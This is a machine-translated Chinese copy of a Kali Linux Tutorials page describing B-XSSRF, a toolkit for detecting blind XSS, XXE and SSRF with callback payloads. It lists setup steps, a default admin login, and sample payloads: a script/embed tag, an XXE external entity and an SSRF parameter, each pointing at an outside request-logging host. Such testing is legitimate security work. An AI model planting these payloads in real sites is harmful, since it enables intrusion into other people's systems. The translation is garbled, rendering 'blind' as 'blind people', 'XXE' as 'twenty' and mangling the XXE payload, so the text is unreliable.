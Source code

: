 # B-XSSRF:检测和跟踪 XSS、XXE 和 SSRF 盲人的工具包

> 原文：<https://kalilinuxtutorials.com/b-xssrf-blind-xss-xxe-ssrf/>

[![B-XSSRF : Toolkit To Detect & Keep Track On Blind XSS, XXE & SSRF](img//7eff3cc6d7ab93be853c434b52d9c36f.png "B-XSSRF : Toolkit To Detect & Keep Track On Blind XSS, XXE & SSRF")](https://1.bp.blogspot.com/-Vru9QykHSQw/XWzC4uJK6HI/AAAAAAAACUk/qmF5sv2OSXwz4N-RjcQ5iDuE9LxQuxS_gCLcBGAs/s1600/icon%2B%25281%2529.png)

B-XSSRF 是一个工具包，用于检测和跟踪盲人 XSS，XXE & SSRF。

![](img//19504b5e2c07841f769eb05564092ee3.png)

**阅读更多-[red hunt OS:对手模拟虚拟机&威胁追踪](https://kalilinuxtutorials.com/redhunt-os-virtual-machine/)**

**设置**

*   将文件上传到您的服务器。
*   创建一个数据库并将 **database.sql** 文件上传到其中。
*   更改【db.php】文件**中的 **DB 凭证**。**
*   准备好了。

**用法**

**盲人 XSS**

<embed src="”http://mysite.com/bxssrf/request.php”">
<script src = " http://my site . com/bxssrf/request . PHP ">

**盲目二十**

<DOCTYPE 根[
]T6！ENTITY % ext SYSTEM " http://my site . com/bxssrf/request . PHP ">% ext；
>
r>

**SSRF**

GET/tests SRF . PHP = http://my site . com/bxs SRF/request . PHP

**默认凭证**

**用户:**admin@test.com
通行证: 123456

[**Download**](https://github.com/SpiderMate/B-XSSRF)